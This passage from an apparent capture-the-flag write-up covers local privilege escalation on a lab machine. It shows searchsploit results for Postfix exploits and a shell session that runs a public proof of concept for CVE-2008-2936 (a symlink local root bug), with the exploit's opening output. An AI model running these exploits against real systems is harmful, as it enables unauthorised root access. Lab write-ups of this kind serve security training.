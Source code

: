 For postfix, we have only one exploits for local privesc:

```bash
searchsploit "Postfix"                                                                                                                                                                                                             127 ⨯
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
gld 1.4 - Postfix Greylisting Daemon Remote Format String                                                                                                                                                  | linux/remote/934.c
Postfix 1.1.x - Denial of Service (1)                                                                                                                                                                      | linux/dos/22981.c
Postfix 1.1.x - Denial of Service (2)                                                                                                                                                                      | linux/dos/22982.pl
Postfix 2.6-20080814 - 'symlink' Local Privilege Escalation                                                                                                                                                | linux/local/6337.sh
Postfix < 2.4.9/2.5.5/2.6-20080902 - '.forward' Local Denial of Service                                                                                                                                    | multiple/dos/6472.c
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection                                                                                                                                        | linux/remote/34896.py
Salim Gasmi GLD (Greylisting Daemon) - Postfix Buffer Overflow (Metasploit)                                                                                                                                | linux/remote/16841.rb
Salim Gasmi GLD (Greylisting Daemon) 1.0 < 1.4 - Postfix Greylisting Buffer Overflow (Metasploit)                                                                                                          | linux/remote/10023.rb
Salim Gasmi GLD (Greylisting Daemon) 1.x - Postfix Greylisting Daemon Buffer Overflow                                                                                                                      | linux/remote/25392.c
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Checking the exploit: [https://www.exploit-db.com/exploits/6337](https://www.exploit-db.com/exploits/6337).

```bash
kyle@writer:/tmp$ vim exploit.sh
kyle@writer:/tmp$ chmod +x exploit.sh 
kyle@writer:/tmp$ ./exploit.sh 
#
# "rs_pocfix.sh" (PoC for Postfix local root vulnerability: CVE-2008-2936)
# by Roman Medina-Heigl Hernandez a.k.a. RoMaNSoFt <roman@rs-labs.com>
#
# Tested: Ubuntu / Debian
#
# [ Madrid, 30.Aug.2008 ]
#
[*] Postfix seems to be installed
[*] Hardlink to symlink not dereferenced
```